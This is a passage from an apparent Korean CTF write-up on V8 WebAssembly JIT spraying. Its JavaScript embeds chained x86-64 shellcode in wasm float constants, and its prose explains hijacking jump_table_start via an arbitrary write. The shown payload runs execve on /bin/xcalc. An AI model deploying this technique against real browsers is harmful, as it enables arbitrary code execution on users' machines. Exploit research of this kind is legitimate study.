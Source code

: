 ```js
let wasm_code = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x20, 0x1, 0x1e, 0x0, 0x44, 0x9a, 0x99, 0x99, 0x99, 0x99, 0x99, 0xf1, 0x3f, 0x44, 0x9a, 0x99, 0x99, 0x99, 0x99, 0x99, 0x1, 0x40, 0x44, 0x66, 0x66, 0x66, 0x66, 0x66, 0x66, 0xa, 0x40, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_module);
wasm_instance.exports.main(); // compile

% DebugPrint(wasm_instance);
```

![image](https://github.com/user-attachments/assets/afd89628-c4c4-4e78-a21f-bd515c7c765d)

![image](https://github.com/user-attachments/assets/6a3b8142-2be6-45f0-9bc0-dd2dd355bf28)

이를 이용하여 executable memory에 최대 8바이트의 shellcode를 쓸 수 있고, AAW를 이용하여 `jump_table_start`를 shellcode의 주소로 조작하면 exported function을 호출했을 때 shellcode가 실행된다. 실행하고자 하는 shellcode가 8바이트보다 길 경우, 마지막 2바이트에 `jmp` instruction을 삽입하여 다음 shellcode로 점프하도록 하면 여러 개의 짧은 shellcode들로 chain을 구성할 수 있다.

[shellcode.py](./shellcode.py)

![image](https://github.com/user-attachments/assets/e3fbef0b-9c41-4896-8883-e361c9115ac8)

[pwn.wat](./pwn.wat)

```bash
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
```

```shell
$ python3 wasm.py
[0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x9f, 0x1, 0x1, 0x9c, 0x1, 0x0, 0x44, 0x48, 0x31, 0xc0, 0x90, 0x90, 0x90, 0xeb, 0x7, 0x44, 0x66, 0xb8, 0x6c, 0x63, 0x50, 0x90, 0xeb, 0x7, 0x44, 0xb8, 0x2f, 0x78, 0x63, 0x61, 0x90, 0xeb, 0x7, 0x44, 0x48, 0xc1, 0xe0, 0x20, 0x90, 0x90, 0xeb, 0x7, 0x44, 0x48, 0x5, 0x2f, 0x62, 0x69, 0x6e, 0xeb, 0x7, 0x44, 0x50, 0x48, 0x89, 0xe7, 0x90, 0x90, 0xeb, 0x7, 0x44, 0x48, 0x31, 0xf6, 0x90, 0x90, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x31, 0xc0, 0x90, 0x90, 0x90, 0xeb, 0xc, 0x44, 0x66, 0xb8, 0x3a, 0x30, 0x50, 0x90, 0xeb, 0xc, 0x44, 0xb8, 0x4c, 0x41, 0x59, 0x3d, 0x90, 0xeb, 0xc, 0x44, 0x48, 0xc1, 0xe0, 0x20, 0x90, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x5, 0x44, 0x49, 0x53, 0x50, 0xeb, 0xc, 0x44, 0x50, 0x48, 0x89, 0xe0, 0x90, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x31, 0xdb, 0x53, 0x50, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x89, 0xe2, 0x90, 0x90, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x31, 0xc0, 0xb0, 0x3b, 0x90, 0xeb, 0xc, 0x44, 0xf, 0x5, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0xf, 0xb]
```

```js
console.log("[+] JIT spraying...");
let wasm_code = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x9f, 0x1, 0x1, 0x9c, 0x1, 0x0, 0x44, 0x48, 0x31, 0xc0, 0x90, 0x90, 0x90, 0xeb, 0x7, 0x44, 0x66, 0xb8, 0x6c, 0x63, 0x50, 0x90, 0xeb, 0x7, 0x44, 0xb8, 0x2f, 0x78, 0x63, 0x61, 0x90, 0xeb, 0x7, 0x44, 0x48, 0xc1, 0xe0, 0x20, 0x90, 0x90, 0xeb, 0x7, 0x44, 0x48, 0x5, 0x2f, 0x62, 0x69, 0x6e, 0xeb, 0x7, 0x44, 0x50, 0x48, 0x89, 0xe7, 0x90, 0x90, 0xeb, 0x7, 0x44, 0x48, 0x31, 0xf6, 0x90, 0x90, 0x90, 0xeb, 0x7, 0x44, 0x90, 0x48, 0x31, 0xc0, 0x90, 0x90, 0xeb, 0xc, 0x44, 0x66, 0xb8, 0x3a, 0x30, 0x50, 0x90, 0xeb, 0xc, 0x44, 0xb8, 0x4c, 0x41, 0x59, 0x3d, 0x90, 0xeb, 0xc, 0x44, 0x90, 0x48, 0xc1, 0xe0, 0x20, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x5, 0x44, 0x49, 0x53, 0x50, 0xeb, 0xc, 0x44, 0x50, 0x48, 0x89, 0xe0, 0x90, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x31, 0xdb, 0x53, 0x50, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x89, 0xe2, 0x90, 0x90, 0x90, 0xeb, 0xc, 0x44, 0x48, 0x31, 0xc0, 0xb0, 0x3b, 0x90, 0xeb, 0xc, 0x44, 0xf, 0x5, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_module);
wasm_instance.exports.main(); // compile
```
